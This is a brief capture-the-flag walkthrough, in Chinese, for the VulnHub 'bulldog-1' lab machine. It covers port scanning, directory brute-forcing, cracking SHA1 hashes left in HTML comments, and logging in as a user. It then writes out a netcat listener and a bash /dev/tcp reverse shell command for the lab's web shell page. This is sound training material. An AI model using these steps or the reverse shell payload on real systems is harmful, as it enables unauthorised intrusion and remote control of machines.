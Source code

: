 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態
DirBuster爆破目錄，發現在/dev/中的source code有提示
> <!--Need these password hashes for testing. Django's default is too complex-->
> <!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限，發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功

攻擊機:`nc -l 3333`

靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`

查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory

